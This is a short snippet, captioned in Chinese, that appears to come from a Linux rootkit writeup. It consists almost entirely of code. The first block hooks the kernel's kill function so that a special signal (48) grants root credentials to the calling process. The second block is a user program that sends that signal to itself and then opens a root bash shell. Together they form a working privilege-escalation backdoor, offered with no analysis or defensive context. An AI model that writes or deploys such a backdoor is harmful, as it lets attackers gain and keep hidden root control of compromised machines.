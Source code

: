 Hook kill函数，发送指定SIGNAL信号

```
#define SIGROOT 48
asmlinkage int fake_kill(pid_t pid, int sig){
    switch(sig){
        case SIGROOT:
            commit_creds(prepare_kernel_cred(0));
            break;
	default:
            return o_kill(pid,sig);

    }
    return 0;
}
```



```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

void sig_handler(int sig) {
    if(sig) // avoid warnings

    return;
}

int main(int argc, char *argv[]) {
    char bash[] = "/bin/bash\x00";
    char *envp[1] = { NULL };
    char *arg[3] = {"/bin/bash", NULL};
    
    if(geteuid() == 0){
        printf("You are already root! :)\n\n");
        exit(0);
    } 
    
    signal(48, sig_handler);
    kill(getpid(), 48);

    if (geteuid() == 0){
        printf("\e[01;36mYou got super powers!\e[00m\n\n");
        execve(bash, arg, envp);
    } else {
        printf("\e[00;31mYou have no power here! :( \e[00m\n\n");
    }
        
    return 0;
}


```
